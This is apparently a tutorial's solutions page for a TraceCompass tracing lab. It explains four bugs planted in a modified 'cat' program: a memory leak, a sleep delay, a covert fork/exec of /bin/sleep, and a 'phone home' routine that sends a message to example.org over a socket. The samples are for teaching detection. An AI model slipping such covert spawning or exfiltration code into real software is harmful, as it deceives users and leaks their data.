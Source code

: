 ### Solutions to the Bug Hunt

The `cat` file had 4 more or less obvious problems/issues. This is a teaching use case, meant to show some potential issues in a very very simple program. "Real" issues will be a lot harder to find in a much more complex code base. But the tools are the same.

- - -

#### Bug #1: memory leak

As mentioned in a previous lab, TraceCompass does not claim to be a memory leak finder. `Valgrind` would do a better job in this case and pinpoint the exact line of the leaked memory allocation. But we can observe it in TraceCompass and see where/when in the execution the leak may have happened.

![Bug Hunt Memory Leak](screenshots/memoryLeak.png "Bug Hunt: Memory Leak")

This happens in the `cat.c` file at line 769

```c
769    test = malloc(1000);
770    printf("That's a custom-compiled cat for tutorial purposes %s", test);
771    inbuf = xmalloc (insize + 1 + page_size - 1);
772    test = inbuf;  // Losing my pointer
```

- - -

#### Bug #2: An "optimization loop" of usleep

When developing, it's often convenient to add some latency at some places to avoid a race condition or make sure some other condition is met. The techniques used are sometimes... dubious... One of them is adding sleeps in the code. We can see those with TraceCompass. The critical path shows a `Timer` state for those and the thread is blocked.

![Bug Hunt Optimization Loop](screenshots/optimizationLoop.png "Bug Hunt: Optimization Loop")

This happens in the `cat.c` file in the `next_line_num` function at line 175:

```c
132    static void
133    next_line_num (void)
134    {
         ....
174      // Optimization loop, remove when we need more perf ;-)
175      usleep(100);
176    }
```

- - -

#### Bug #3: Spawning a process!

Most complex applications today are multi-threaded so we expect to see a lot of children to a given process. But could one of those children be a malicious one? TraceCompass shows all the hierarchy of processes and threads, so in doubt, it is possible to examine one in particular and see what it does.

In our case, `cat` is not expected to have any children, but it has, and more than one.

* Some are named `cat-ust`. Looking at their critical path, we see it interacts with `lttng-consumerd`. Since we are explicitly tracing `cat` with `lttng-ust`, this behaviour would be normal in this case. Everythin happens before the call to main, so it's the libraries preloading.

* We also observe a `sleep` process being spawned during execution, in the middle of a `next_line_num` function. That is not normal. `sleep` is harmless here, but a malicious application could start a key logger process for instance.

![Bug Hunt Spawn Process](screenshots/spawnProcess.png "Bug Hunt: Spawn Process")

This happens in the `cat.c` file in the `next_line_num` function from line 136 to 158:

```c
136    if ((endp - line_num_start) == 2 && execDone == 0) {
137      // This file looks long enough, let's subrepticiously start a thread hehehe
138      pid_t process = fork();
139
140      if (process < 0){
141        //fork error, oops, just be quiet...
142      }
143      if (process == 0){
144        char cmd_exec[11] = "/bin/sleep";
145        char time_sec[2] =  "5";
146        char* argv[2];
147
148        argv[0] = cmd_exec;
149        argv[1] = time_sec;
150
151        execv("/bin/sleep", (char *[]){ cmd_exec, time_sec, NULL });
152        fprintf(stderr, "\n********************\n");
153        fprintf(stderr, " Unable to exec %s: %d\n", argv[0], errno);
154        fprintf(stderr, "********************\n");
155        exit(1);
156      }
157      execDone = 1;
158    }
```

- - -

#### Bug #4: Subrepticious Phone Home

Computer systems, from smart phones to data centers, store a lot of very sensitive/personal data, that can be of interest to many attackers. It may be tempting for some attackers to add some code snippets to leak this precious data. With TraceCompass and the critical path, we can observe network connections and messaging. Of course, the implementation here is naive. If I were to write such a code, I'd make sure it is not obvious like this one, but... not all attackers are smart or know about this?

Here, we do not expect `cat` to do any network connection, unless we are catting a file from the network, which we aren't. So those network connections are fishy.

![Bug Hunt Phone Home](screenshots/phoneHome.png "Bug Hunt: Phone Home")

This happens in the `cat.c` file in the `cat` function from line 513 to 533:

```c
513    if (bpin + 5 < eob && *bpin == ' ' && *(bpin + 1) == 'c' && *(bpin + 2) == 'a' && *(bpin + 3) == 't' && *(bpin + 4) == ' ') {
514      // omg, he said ' cat ', we need to tell the boss
515      int sockfd = 0,n = 0;
516      char sendBuff[1024] = "Hey boss, this user said cat, that's not right";
517      struct sockaddr_in serv_addr;
518
519      if((sockfd = socket(AF_INET, SOCK_STREAM, 0))> 0)
520        {
521          serv_addr.sin_family = AF_INET;
522          serv_addr.sin_port = htons(80);
523          serv_addr.sin_addr.s_addr = inet_addr("93.184.216.34");      // www.example.org
524
525          if(connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr))>=0)
526            {
527              n = write(sockfd, sendBuff, sizeof(sendBuff)-1);
528              if (n < 0) {
529                // Couldn't tell boss, that's too bad
530              }
531            }
532        }
533    }
```

- - -

#### Next

* [Back](../) for more options
